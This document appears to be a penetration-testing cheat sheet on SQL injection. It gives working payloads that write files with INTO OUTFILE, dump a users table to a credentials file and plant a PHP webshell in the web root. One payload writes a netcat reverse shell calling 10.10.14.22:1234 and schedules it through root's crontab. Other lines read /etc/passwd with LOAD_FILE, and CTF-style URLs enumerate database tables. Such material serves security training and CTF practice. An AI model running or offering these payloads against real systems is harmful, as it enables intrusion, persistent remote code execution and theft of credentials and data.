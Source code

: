 ## Select into outfile
```
# dump all content of users table into file
SELECT * from users INTO OUTFILE '/tmp/credentials';

# dump arbitrary text into file
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';

# writing text into the webroot of the webserver
SELECT 'file written successfully!' INTO OUTFILE '/var/www/html/proof.txt'

# writing text into the webroot of the webserver over a union injection
# will print -> "1file written successfully!34"
cn' UNION SELECT 1,'file written successfully!',3,4 INTO OUTFILE '/var/www/html/proof.txt'-- -

# using "" for the UNION to get a cleaner output in the text file
# will print -> " file written successfully!  "
cn' UNION SELECT "",'file written successfully!',"","" INTO OUTFILE '/var/www/html/proof.txt'-- -

# using the concept to upload a webshell
# will print -> " <?php system($_REQUEST[0]); ?>  "
# the use the shell by giving your command to the parameter 0
# 10.10.10.10:8081/shell.php?0=cat+/etc/passwd
cn' UNION SELECT "",'<?php system($_REQUEST[0]); ?>', "", "" INTO OUTFILE '/var/www/html/shell.php'-- -
```

## WAF
```
ModSecurity - OpenSource
CloudFlare - Paid

cn' UNION SELECT 1,"file written successfully!",3,4,5 INTO OUTFILE '/tmp/proof.txt'-- -
cn' UNION SELECT 1,'<?php system($_REQUEST[0]); ?>',3,4,5 INTO OUTFILE '/tmp/proof.php'-- -
cn' UNION SELECT 1,'<?php system($_REQUEST[0]); ?>',3,4,5 INTO OUTFILE '/tmp/proot.php'-- -
cn' UNION SELECT "",'<?php system($_REQUEST[0]); ?>',"","","" INTO OUTFILE '/tmp/shell.php'-- -
cn' UNION SELECT "",'<?php system($_REQUEST[0]); ?>',"","","" INTO OUTFILE '/www/shell.php'-- -
cn' UNION SELECT "",'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.22 1234 >/tmp/f',"","","" INTO OUTFILE '/tmp/shell.sh'-- -
cn' UNION SELECT "",'* * * * * /tmp/shell.sh',"","","" INTO OUTFILE '/var/spool/cron/crontabs/root'-- -
cn' union select "",'<?php system($_REQUEST[0]); ?>',"","","" into outfile '/var/www/html/shell.php'-- -

cn' UNION SELECT 1, LOAD_FILE("/etc/crontab"),3,4,5-- -
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"),3,4,5-- -
cn' UNION SELECT 1, LOAD_FILE("/tmp/proot.php"),3,4,5-- -
cn' UNION SELECT 1, LOAD_FILE("/var/www/dashboard.php"),3,4,5-- -
cn' UNION SELECT 1, LOAD_FILE("/tmp/shell.sh"),3,4,5-- -
```
```
https://ctf.tk/ctf/game/gallery-single-post.html?id=1%20union%20select%201,2,3,4,username,6%20FROM%20users

https://ctf.tk/ctf/game/gallery-single-post.html?id=1%20union%20select%201,2,3,4,id,6%20FROM%20users
https://ctf.tk/ctf/game/gallery-single-post.html?id=1%20union%20select%201,2,3,4,name,6%20FROM%20sqlite_master%20WHERE%20type=%27table%27

https://ctf.tk/ctf/game/gallery-single-post.html?id=1%20union%20select%201,2,3,4,sql,6%20FROM%20sqlite_master%20WHERE%20type=%27table%27
CREATE TABLE "messages" (id INTEGER PRIMARY KEY, fname CHAR(25), lname CHAR(25), address CHAR(100), email CHAR(50), phone CHAR(25), message CHAR(255)) 6 (2)
```
